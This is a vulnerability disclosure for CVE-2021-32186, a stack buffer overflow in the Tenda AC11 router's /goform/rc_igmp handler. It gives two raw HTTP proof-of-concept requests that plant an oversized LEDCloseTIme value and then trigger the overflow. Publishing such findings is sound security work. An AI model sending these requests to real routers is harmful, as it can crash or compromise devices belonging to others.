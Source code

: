 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_igmp` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800227AC` (page `/goform/rc_igmp`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v5`. `v3` is directly retrived from the nvram variable `led_time` without any security check.

![1](1.PNG)

the `led_time` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDCloseTime` into varialbe `v10`, which can then be used to assign to the `led_time` variable.If `v10` is different from the original value of nvram variable `led_time`(variable `v13` and `v14`),then the nvram variable `led_time` will be set as `v10`

![2](2.PNG)

So by first setting the `LEDCloseTime` and then requesting the page `/goform/rc_igmp`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_igmp HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
## CVE ID
CVE-2021-32186